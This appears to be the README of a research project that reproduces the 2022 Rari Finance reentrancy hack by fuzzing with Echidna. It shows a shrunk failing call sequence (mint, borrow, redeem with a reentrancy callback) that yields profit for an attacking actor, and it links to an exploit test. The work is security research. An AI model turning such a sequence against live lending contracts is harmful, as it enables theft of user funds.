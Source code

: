 # Reproduction of Rari Finance hack

## Description
This is a reproduction of the $80M Rari Finance hack on April 30 2022, using on-chain fuzzing with Echidna.

We're using a single invariant which checks if an actor is able to increase their balance by an unreasonably large amount. We have a basic set of functions such as `mint`, `borrow` and `exitMarket`, etc. Since the hack involves reentrancy, we've implemented rudementary reentrancy support in [EchidnaReentrancy](src/echidna/EchidnaReentrancy.sol).

After running for approximately 30 minutes (1 worker), we can detect a significant increase in funds for the attacking actor. The shrunk sequence can be seen below.

```
testProfit(): failed!💥
  Call sequence:
    setReentrancyEnabled(true)
    mint(5,10089325332519370949262917519849428342404732088146691233195543578618300570336)
    setReentrancyCallback(4)
    borrow(2,1164710473815707741)
    redeem(2,995200615491)
    testProfit()

Event sequence:
    Panic(1): Using assert
    Debug(«account0Profit», 0) from: 0xa329c0648769a73afac7f9381e08fb43dbea72
    Debug(«account1Profit», 1002263350696681541) from: 0xa329c0648769a73afac7f9381e08fb43dbea72
    Debug(«account2Profit», 0) from: 0xa329c0648769a73afac7f9381e08fb43dbea72

```

## Links
- https://twitter.com/BlockSecTeam/status/1520350965274386433
- https://github.com/SunWeb3Sec/DeFiHackLabs/blob/c4564f5ad21783cb81969540b57b07dd12e53b2a/src/test/Rari_exp.t.sol
